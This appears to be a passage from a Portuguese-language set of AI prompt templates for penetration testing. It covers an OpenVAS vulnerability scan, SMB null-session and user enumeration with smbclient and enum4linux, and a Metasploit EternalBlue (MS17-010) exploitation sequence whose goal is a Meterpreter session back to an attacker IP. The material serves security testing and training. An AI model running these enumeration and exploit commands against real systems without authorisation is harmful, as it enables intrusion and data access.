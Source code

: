 
### **Prompt 4: Varredura com Nessus/OpenVAS**

*   **Persona:** Pentester utilizando ferramentas de varredura automatizada.
*   **Tarefa:** Configurar e executar uma varredura de vulnerabilidades no alvo usando o OpenVAS (ou Nessus).
*   **Etapas:**
    1.  Configurar um novo alvo no OpenVAS com o endereço IP.
    2.  Criar uma nova tarefa do tipo "Varredura de Vulnerabilidades" full and fast.
    3.  Selecionar um scan config apropriado (ex: "Descoberta de Rede Viva" + "Varredura de Vulnerabilidades de Rede Completa e Rápida").
    4.  Iniciar a tarefa e monitorar seu progresso.
    5.  Analisar o relatório gerado.
*   **Contexto:** IP alvo: `192.168.1.50`. Credenciais de login do Greenbone/OpenVAS são conhecidas.
*   **Objetivo:** Complementar a análise manual com uma varredura automatizada e abrangente de vulnerabilidades conhecidas.
*   **Saída Esperada:** Os passos exatos na GUI do OpenVAS (ou comandos CLI se usando `gvm-cli`). Um resumo das vulnerabilidades críticas/altas encontradas, com seus OIDs e CVSS scores.

---

### **Prompt 5: Enumeração SMB**

*   **Persona:** Pentester focado em ambientes Windows.
*   **Tarefa:** Enumerar informações e potenciais pontos de entrada em um servidor SMB.
*   **Etapas:**
    1.  Listar shares de rede disponíveis.
    2.  Verificar se o acesso anônimo (Null Session) é permitido.
    3.  Enumerar usuários do sistema via SMB.
    4.  Tentar acessar shares desprotegidos.
*   **Contexto:** IP: `192.168.1.50`. Porta 445 está aberta.
*   **Objetivo:** Obter informações sensíveis, listas de usuários e acesso a arquivos compartilhados.
*   **Saída Esperada:** Comandos sequenciais do `smbclient` e `enum4linux`. Ex: `smbclient -L //192.168.1.50 -N`, `enum4linux -a 192.168.1.50`. Análise da saída, destacando shares acessíveis e usuários enumerados.

---

### **Prompt 6: Exploração com Metasploit**

*   **Persona:** Pentester na fase de exploração.
*   **Tarefa:** Explorar uma vulnerabilidade específica usando o framework Metasploit.
*   **Etapas:**
    1.  Procurar pelo módulo de exploit correspondente à vulnerabilidade (ex: `ms17-010`).
    2.  Configurar as opções obrigatórias do módulo (RHOSTS, LHOST, PAYLOAD).
    3.  Executar o exploit.
    4.  Estabelecer uma sessão Meterpreter.
*   **Contexto:** IP alvo (`192.168.1.50`) é vulnerável ao EternalBlue (MS17-010). IP da máquina atacante: `10.0.0.25`.
*   **Objetivo:** Obter acesso inicial ao sistema alvo.
*   **Saída Esperada:** A sequência exata de comandos do `msfconsole`. Ex: `search ms17-010`, `use exploit/windows/smb/ms17_010_eternalblue`, `set RHOSTS 192.168.1.50`, `set LHOST 10.0.0.25`, `run`. Confirmação de uma sessão Meterpreter aberta.

---